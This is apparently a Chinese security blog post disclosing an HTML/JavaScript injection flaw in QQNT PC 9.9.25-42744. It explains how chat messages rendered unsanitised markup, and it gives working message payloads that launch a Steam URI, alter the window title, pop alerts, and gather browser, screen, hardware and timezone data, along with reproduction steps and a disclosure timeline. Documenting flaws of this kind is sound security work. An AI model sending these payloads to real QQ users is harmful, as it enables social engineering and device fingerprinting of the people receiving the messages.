




本文记录了在 QQNT PC 9.9.25-42744 版本中发现的一个 HTML/JavaScript 注入漏洞。该漏洞允许通过消息内容注入 HTML 元素和 JavaScript 代码，虽然执行上下文受限，但仍可能被用于社会工程学攻击。

# 漏洞详情

**影响版本:** QQ 9.9.25 Build 42744

**漏洞类型:** HTML 注入 / 受限 JavaScript 执行

# 漏洞原理

该版本的 QQ 客户端在渲染消息内容时，未对 HTML 标签进行充分过滤。用户可以在消息中插入 HTML 元素，并执行 (如通过事件处理器 `onclick`) JavaScript 代码。

## 关键发现

1. **可以注入 HTML 元素**: 如`<div>`、`<button>`等标签能够正常渲染
2. **内联事件处理器可执行**: `onclick`、`onmouseover`等事件绑定的 JS 代码可以执行
3. **执行上下文受限**: 代码运行在消息渲染的沙箱环境中,权限有限

# 实际测试案例

:::caution
请在允许的范围内进行测试。
:::

## URI 协议调用

```html
<div>
  <button onclick="window.location.href = 'steam://rungameid/1144400'">
    千恋＊万花 启动！
  </button>
</div>
```

<video controls><source src="/object-storage/senren.mp4" type="video/mp4"></video>

**效果**: 点击按钮后会尝试调用 Steam 协议，启动千恋＊万花

## 修改窗口标题

```html
<title>系统信息检测</title>
```

**效果**: QQ 客户端的标题栏和任务栏显示名称被修改


## 弹出窗口

```html
<div><button onclick="alert('PC QQ 大 bug')">点击测试</button></div>
```



## 完整测试

**效果图**：



<video controls><source src="/object-storage/all.mp4" type="video/mp4"></video>

### 用户代理信息获取

```html
<div>
  <button
    onclick="document.getElementById('ua_result').innerHTML = navigator.userAgent"
  >
    显示用户代理
  </button>
</div>
<div id="ua_result"></div>
```

### 系统信息收集

```html
<div>
  <button
    onclick="var info = '平台: ' + navigator.platform + '<br>语言: ' + navigator.language + '<br>在线状态: ' + (navigator.onLine ? '在线' : '离线'); document.getElementById('sys_result').innerHTML = info"
  >
    显示系统信息
  </button>
</div>
<div id="sys_result"></div>
```

### 屏幕信息探测

```html
<div>
  <button
    onclick="var screen = '分辨率: ' + screen.width + 'x' + screen.height + '<br>色彩深度: ' + screen.colorDepth + '位<br>可用分辨率: ' + screen.availWidth + 'x' + screen.availHeight; document.getElementById('screen_result').innerHTML = screen"
  >
    显示屏幕信息
  </button>
</div>
<div id="screen_result"></div>
```

### 浏览器插件枚举

```html
<div>
  <button
    onclick="var plugins = ''; for(var i=0; i<navigator.plugins.length; i++){plugins += navigator.plugins[i].name + '<br>'} document.getElementById('plugins_result').innerHTML = plugins || '无插件'"
  >
    显示浏览器插件
  </button>
</div>
<div id="plugins_result"></div>
```

### 时区和时间信息

```html
<div>
  <button
    onclick="var time = '时区: ' + Intl.DateTimeFormat().resolvedOptions().timeZone + '<br>本地时间: ' + new Date().toLocaleString() + '<br>UTC时间: ' + new Date().toUTCString(); document.getElementById('time_result').innerHTML = time"
  >
    显示时间信息
  </button>
</div>
<div id="time_result"></div>
```

### 网络信息探测

```html
<div>
  <button
    onclick="var net = '连接类型: ' + (navigator.connection ? (navigator.connection.effectiveType || '未知') : '不支持Network API') + '<br>下行速度: ' + (navigator.connection ? (navigator.connection.downlink + ' Mbps') : '未知'); document.getElementById('net_result').innerHTML = net"
  >
    显示网络信息
  </button>
</div>
<div id="net_result"></div>
```

### 硬件信息获取

```html
<div>
  <button
    onclick="var mem = '设备内存: ' + (navigator.deviceMemory || '未知') + 'GB<br>CPU核心: ' + (navigator.hardwareConcurrency || '未知') + '个'; document.getElementById('mem_result').innerHTML = mem"
  >
    显示硬件信息
  </button>
</div>
<div id="mem_result"></div>
```

### 剪贴板写入测试

```html
<div>
  <button
    onclick="var copyText = '用户代理: ' + navigator.userAgent + '\\n平台: ' + navigator.platform + '\\n语言: ' + navigator.language; navigator.clipboard.writeText(copyText).then(()=>document.getElementById('copy_result').innerHTML='复制成功').catch(()=>document.getElementById('copy_result').innerHTML='复制失败')"
  >
    复制信息到剪贴板
  </button>
</div>
<div id="copy_result"></div>
```

### 完整信息收集

```html
<div>
  <button
    onclick="var all = '用户代理: ' + navigator.userAgent + '<br>平台: ' + navigator.platform + '<br>语言: ' + navigator.language + '<br>分辨率: ' + screen.width + 'x' + screen.height + '<br>时区: ' + Intl.DateTimeFormat().resolvedOptions().timeZone; document.getElementById('all_result').innerHTML = all"
  >
    显示所有信息
  </button>
</div>
<div id="all_result"></div>
```

# 受限的执行环境

经过测试,以下操作**无法**或**无明显效果**:

- ❌ `` 标签，但是点击直接跳转浏览器
- ❌ `<script>`标签直接引入的外部脚本不执行
- ⚠️ 部分 JavaScript 操作虽然执行但无实际效果(受沙箱限制)

# 漏洞复现步骤

1. 在 QQ 聊天窗口中发送上述任意 HTML 代码
2. 消息会在在双方渲染为可交互的按钮或执行逻辑

# 披露时间线

- **2025 年 11 月 28 日**: 漏洞被发现，并广泛以聊天记录形式传播于 QQ 群
- **2025 年 11 月 29 日**: 腾讯已撤回该版本更新包，目前最新版本 9.9.23-42430
- **2025 年 11 月 30 日**: 即文章编写之日，已发布新版本 9.9.25-42905，:spoiler[但是貌似又有了新的 bug，无法打开文件夹]

# 责任声明

本文仅用于安全研究和提高公众安全意识。请勿将本文内容用于非法用途。


